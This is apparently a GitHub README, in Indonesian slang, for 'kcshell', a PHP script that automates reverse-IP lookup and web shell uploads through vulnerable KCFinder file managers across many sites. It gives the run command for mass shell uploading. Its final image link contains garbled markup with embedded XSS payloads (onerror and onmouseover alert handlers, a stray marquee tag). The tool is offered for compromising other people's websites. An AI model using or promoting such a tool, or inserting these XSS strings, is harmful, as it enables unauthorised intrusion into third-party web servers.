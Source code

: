 # kcshell
kcfinder auto reverse ip + upshell

Ketika gw nemu web vuln kcfinder tapi males buat reverse ip > cek path > upshell one by one
gw coba buat sebisanya buat ngilangin malas :v

command : php kcf.php example.com path/to/kcfinder/upload.php path/to/shell


![image](https://github.com/xcapri/kcshell/blob/master/kc60.png)


![image](https://github.com/xcapri/kcshell/blob/master/"/></a></img><marquee>![<img src=x onerror=confirm(1)>xss<img src=// onmouseover=alert(1)>kc60.png](<img src=// onmouseover=alert(1)>kc60.png)
